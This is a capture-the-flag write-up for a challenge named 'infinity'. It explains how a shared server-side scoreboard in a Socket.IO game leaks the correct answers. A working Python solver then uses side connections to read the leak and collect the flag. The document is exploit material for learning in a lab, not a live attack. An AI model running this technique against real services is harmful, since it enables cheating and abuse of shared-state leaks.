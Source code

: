 # infinity (∞)

## Setup

```bash
docker-compose up
```

## Solution

`scoreboard` variable in `server/app.ts` is the following object such as:

```js
scoreboard = {
  'sid1': 0,
  'sid2': 2,
  'sid3': 1,
}
```

Use the following behavior to get the correct answer:

- `scoreboard` is shared by all connections on the server side.
  Therefore, we can see other players' scores.
- When the client emits the answer, the server side judges success or failure.
  If the answer sent by the client is correct, `scoreboard[socket.id] += 1` in the server side.
- When the client connects (WebSocket `connect`), the server sends GameState containing the `scoreboard`

And if we send the correct answer 21 times, the server will emit the flag.
Therefore we can get the flag.

solver.py

```python
import socketio


SOCKET_URL = "http://localhost:1024"

sio_org = socketio.Client()


@sio_org.event
def connect():
    print("connection established")


@sio_org.event
def gameState(data):
    if "correctAnswer" in data.keys():
        return

    connected_sids = []
    for i in range(4):
        sio = socketio.SimpleClient()
        sio.connect(SOCKET_URL)
        sio.emit("answer", i)
        connected_sids.append(sio.sid)

    sio_for_answer = socketio.SimpleClient()
    sio_for_answer.connect(SOCKET_URL)
    event = sio_for_answer.receive()

    scoreboard = event[1]["scoreboard"]

    correct_answer_sid = [
        k for k, v in scoreboard.items() if k in connected_sids and v == 1
    ][0]
    correct_answer = connected_sids.index(correct_answer_sid)
    print(f"{correct_answer=}")
    sio_org.emit("answer", correct_answer)


@sio_org.event
def flag(data):
    print(data)


sio_org.connect(SOCKET_URL)
sio_org.wait()
```
